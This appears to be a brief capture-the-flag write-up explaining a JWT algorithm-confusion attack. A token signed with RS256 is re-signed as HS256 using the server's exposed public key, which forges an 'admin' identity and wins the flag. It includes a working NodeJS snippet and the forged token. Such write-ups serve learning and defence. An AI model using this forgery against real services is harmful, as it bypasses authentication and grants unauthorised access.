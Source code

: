 # Auth0 +2

This app suffers from an attack that forces the server to switch from using an assymetric algorithm to verify the signed JWT to using a symmetric one.

The initial JWT is signed using the `RS256` algorithm, we can take this JWT, decode it, change the user variable and then resign it using the symmetric `HS265` algorithm and the `public_key.pem` file found under `/pki` which can be found using gobuster/ffuf/wfuzz.

NodeJS is handy to do this:

```js
> const jwt = require("jsonwebtoken")
> const fs = require("fs")

> var publicKey = fs.readFileSync("public_key.pem")

> jwt.sign({user: "admin"}, publicKey, {algorithm: "HS256"})

'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4iLCJpYXQiOjE1OTkxMTg3NjV9.EhkFZ0b82SSAJueXRkD9D7pv7qpXHY_vnPlnIOB1BQk'
```

Replacing our existing JWT with this new one, they server can successfully verify it without throwing an error and therefore treats the token as valid, and trusting all of the data inside the data portion.

Therefore it believes we are `admin` and presents us the flag!
